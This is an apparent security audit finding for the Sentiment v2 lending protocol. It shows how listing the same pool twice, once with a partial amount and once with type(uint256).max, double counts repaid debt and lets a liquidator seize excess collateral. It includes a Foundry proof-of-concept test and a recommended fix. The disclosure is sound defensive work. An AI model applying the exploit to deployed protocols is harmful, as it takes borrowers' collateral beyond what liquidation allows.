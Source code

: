 Flat Tawny Haddock

High

# User's can seize more assets during liquidation by using type(uint).max

## Summary
User's can seize more assets during liquidation than what should be actually allowed by replaying the repayment amount using type(uint).max 

## Vulnerability Detail
The liquidators are restricted on the amount of collateral they can seize during a liquidation

Eg:
if a position has 1e18 worth debt, and 2e18 worth collateral, then on a liquidation the user cannot seize 2e18 collateral by repaying the 1e18 debt, and they are limited to seizing for ex. 1.3e18 worth of collateral (depends on the liquidation discount how much profit a liquidator is able to generate)

The check for this max seizable amount is kept inside `_validateSeizedAssetValue`

[link](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L129-L145)
```solidity
    function _validateSeizedAssetValue(
        address position,
        DebtData[] calldata debtData,
        AssetData[] calldata assetData,
        uint256 discount
    ) internal view {
        // compute value of debt repaid by the liquidator
        uint256 debtRepaidValue;
        uint256 debtLength = debtData.length;
        for (uint256 i; i < debtLength; ++i) {
            uint256 poolId = debtData[i].poolId;
            uint256 amt = debtData[i].amt;
            if (amt == type(uint256).max) amt = pool.getBorrowsOf(poolId, position);
            address poolAsset = pool.getPoolAssetFor(poolId);
            IOracle oracle = IOracle(riskEngine.getOracleFor(poolAsset));
            debtRepaidValue += oracle.getValueInEth(poolAsset, amt);
        }

        .....

        uint256 maxSeizedAssetValue = debtRepaidValue.mulDiv(1e18, (1e18 - discount));
        if (assetSeizedValue > maxSeizedAssetValue) {
            revert RiskModule_SeizedTooMuch(assetSeizedValue, maxSeizedAssetValue);
        }
```

But the `_validateSeizedAssetValue` is flawed as it assumes that the value `type(uint256).max` will result in the liquidator repaying the current `pool.getBorrowsOf(poolId, position)` value. In the actual execution, an attacker can repay some amount earlier and then use `type(uint256).max` on the same pool which will result in a decreased amount because debt has been repaid earlier

Eg:
getBorrows of position = 1e18
user passes in 0.9e18 and type(uint).max as the repaying values
the above snippet will consider it as 0.9e18 + 1e18 being repaid and hence allow for more than 1.9e18 worth of collateral to be seized
but during the actual execution, since 0.9e18 has already been repaid, only 0.1e18 will be transferred from the user allowing the user

### POC Code
Apply the following diff and run `testHash_LiquidateExcessUsingDouble`. It is asserted that a user can use this method to seize the entire collateral of the debt position even though it results in a much higher value than what should be actually allowed

```diff
diff --git a/protocol-v2/test/integration/LiquidationTest.t.sol b/protocol-v2/test/integration/LiquidationTest.t.sol
index beaca63..29e674a 100644
--- a/protocol-v2/test/integration/LiquidationTest.t.sol
+++ b/protocol-v2/test/integration/LiquidationTest.t.sol
@@ -48,6 +48,85 @@ contract LiquidationTest is BaseTest {
         vm.stopPrank();
     }
 
+    function testHash_LiquidateExcessUsingDouble() public {
+        vm.startPrank(user);
+        asset2.approve(address(positionManager), 1e18);
+
+        // deposit 1e18 asset2, borrow 1e18 asset1
+        Action[] memory actions = new Action[](7);
+        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
+        actions[1] = deposit(address(asset2), 1e18);
+        actions[2] = addToken(address(asset2));
+        actions[3] = borrow(fixedRatePool, 1e18);
+        actions[4] = approve(address(mockswap), address(asset1), 1e18);
+        bytes memory data = abi.encodeWithSelector(SWAP_FUNC_SELECTOR, address(asset1), address(asset2), 1e18);
+        actions[5] = exec(address(mockswap), 0, data);
+        actions[6] = addToken(address(asset3));
+        positionManager.processBatch(position, actions);
+        vm.stopPrank();
+        assertTrue(riskEngine.isPositionHealthy(position));
+
+        (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAssetValue) = riskEngine.getRiskData(position);
+
+        assertEq(totalAssetValue, 2e18);
+        assertEq(totalDebtValue, 1e18);
+        assertEq(minReqAssetValue, 2e18);
+
+        // modify asset2 price from 1eth to 0.9eth
+        // now there is 1e18 debt and 1.8e18 worth of asset2
+        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.9e18);
+        vm.prank(protocolOwner);
+        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
+        assertFalse(riskEngine.isPositionHealthy(position));
+        
+        // maximumSeizable amount with liquidation discount : 1388888888888888888 ie. 1.38e18
+        uint liquidationDiscount = riskEngine.riskModule().LIQUIDATION_DISCOUNT();
+        uint supposedMaximumSeizableAssetValue = totalDebtValue * 1e18 / (1e18 - liquidationDiscount);
+        uint maximumSeizableAssets = supposedMaximumSeizableAssetValue * 1e18 / 0.9e18;
+
+        assert(maximumSeizableAssets == 1388888888888888888);
+
+        DebtData memory debtData = DebtData({ poolId: fixedRatePool, amt: 1e18 });
+        DebtData[] memory debts = new DebtData[](1);
+        debts[0] = debtData;
+
+        // verifying that attempting to seize more results in a revert
+        // add dust to cause minimal excess
+        AssetData memory asset2Data = AssetData({ asset: address(asset2), amt: maximumSeizableAssets + 10 });
+        AssetData[] memory assets = new AssetData[](1);
+        assets[0] = asset2Data;
+
+        asset1.mint(liquidator, 10e18);
+
+        vm.startPrank(liquidator);
+        asset1.approve(address(positionManager), 1e18);
+
+        // seizeAttempt value : 1250000000000000008, seizable value : 1250000000000000000
+        vm.expectRevert(abi.encodeWithSelector(RiskModule.RiskModule_SeizedTooMuch.selector, 1250000000000000008, 1250000000000000000));
+        positionManager.liquidate(position, debts, assets);
+        vm.stopPrank();
+
+        // but an attacker can liquidate almost double by exploiting the type.max issue
+        debtData = DebtData({ poolId: fixedRatePool, amt: 0.9e18 });
+        debts = new DebtData[](2);
+        debts[0] = debtData;
+
+        // replay the balance value. this will cause the repaid amount to be double counted allowing the user to liquidate the entire assets
+        debtData = DebtData({ poolId: fixedRatePool, amt: type(uint256).max });
+        debts[1] = debtData;
+
+        // liquidate full asset balance
+        asset2Data = AssetData({ asset: address(asset2), amt: 2e18 });
+        assets = new AssetData[](1);
+        assets[0] = asset2Data;
+
+        // liquidate
+        vm.startPrank(liquidator);
+        asset1.approve(address(positionManager), 1e18);
+        positionManager.liquidate(position, debts, assets);
+        vm.stopPrank();
+    }
+
     function testLiquidate() public {
         vm.startPrank(user);
         asset2.approve(address(positionManager), 1e18);
```

## Impact
Borrowers will loose excess collateral during liquidation

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L129-L145

## Tool used
Manual Review

## Recommendation
Only allow a one entry for each poolId in the `debtData` array. This can be enforced by checking that the array is in a strictly sequential order on pools 
